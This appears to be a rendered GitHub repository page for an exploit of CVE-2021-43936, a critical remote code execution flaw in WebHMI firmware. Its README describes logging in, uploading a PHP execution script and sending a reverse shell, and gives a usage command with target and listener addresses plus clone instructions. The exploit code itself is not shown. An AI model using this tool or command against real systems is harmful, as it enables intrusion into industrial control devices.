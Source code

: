 # CVE-2021-43936

CVE-2021-43936 is a critical vulnerability (CVSS3 10.0) leading to Remote Code Execution (RCE) in WebHMI Firmware.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/LongWayHomie](https://github.com/LongWayHomie) |
| Url      | [https://github.com/LongWayHomie/CVE-2021-43936](https://github.com/LongWayHomie/CVE-2021-43936)                                               |
| Stars    | 7                                                          |
| License  | The Unlicense                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2021-43936

CVE-2021-43936 is a critical vulnerability (CVSS3 10.0) leading to Remote Code Execution (RCE) in WebHMI Firmware.</br>
This vulnerability works on versions 4.0 and the newest ones.</br>
Tested only on 4.0.7475. Vulnerability is used by script in the following steps:</br>
  1. Logs into the application
  2. Uploads the PHP code execution script
  3. Sends the reverse shell payload

Exploit can fail, if there are more than one NIC attached. The solution is to try once again.

## Usage example:
`python3 cve-2021-43936.py -t 10.100.23.200 -p 80 -l 10.100.23.201 -P 80`

![Screen](img.PNG)



## Get the content

```
git clone https://github.com/LongWayHomie/CVE-2021-43936
cd CVE-2021-43936
```

{% embed url="https://github.com/LongWayHomie/CVE-2021-43936" %}

<figure><img src="https://avatars.githubusercontent.com/u/63229183?v=4" alt=""><figcaption><p>LongWayHomie</p></figcaption></figure>
